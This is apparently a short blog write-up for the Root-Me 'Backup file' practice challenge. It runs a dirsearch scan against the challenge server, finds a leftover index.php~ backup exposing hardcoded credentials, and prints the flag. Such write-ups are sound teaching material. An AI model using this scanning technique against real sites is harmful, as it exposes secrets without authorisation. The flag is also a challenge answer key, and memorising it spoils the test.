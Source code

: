```yaml
---
title: Backup file
author: thanguyen165
date: 2023-01-02 07:00:00 +0700
categories: [Practice, rootme]
tags: [Web Exploitation, rootme]
---
```


* Points: 15
* Link: [https://www.root-me.org/en/Challenges/Web-Server/Backup-file](https://www.root-me.org/en/Challenges/Web-Server/Backup-file)

## Statement

> No clue.

## Solution

```sh
dirsearch -u http://challenge01.root-me.org/web-serveur/ch11/
```

```sh
200 -  531B  - /web-serveur/ch11/index.php
200 -  843B  - /web-serveur/ch11/index.php~
```

Check both of them, we have
```php
<?php

$username="ch11";
$password="OCCY9AcNm1tj";


echo '
      <html>
      <body>
	<h1>Authentication v 0.00</h1>
';

if ($_POST["username"]!="" && $_POST["password"]!=""){
    if ($_POST["username"]==$user && $_POST["password"]==$password)
    {
      print("<h2>Welcome back {$row['username']} !</h2>");
      print("<h3>Your informations :</h3><p>- username : $row[username]</p><br />");
      print("To validate the challenge use this password</b>");
    } else {
      print("<h3>Error : no such user/password</h2><br />");

    }
}

echo '
	<form action="" method="post">
	  Login&nbsp;<br/>
	  <input type="text" name="username" /><br/><br/>
	  Password&nbsp;<br/>
	  <input type="password" name="password" /><br/><br/>
	  <br/><br/>
	  <input type="submit" value="connect" /><br/><br/>
	</form>
      </body>
      </html>
';

?> 
```

The flag is
```
OCCY9AcNm1tj
```